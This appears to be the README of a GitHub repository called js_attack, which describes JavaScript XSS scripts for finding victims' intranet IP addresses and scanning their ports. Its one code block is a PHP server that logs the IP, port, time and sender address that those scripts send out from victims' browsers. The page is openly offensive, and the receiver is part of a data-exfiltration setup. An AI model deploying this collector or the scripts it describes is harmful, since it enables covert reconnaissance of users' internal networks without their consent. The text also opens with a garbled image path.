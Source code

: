 js_attack - some .JS with xss to attack
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js:
you can make a server to hand ip:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


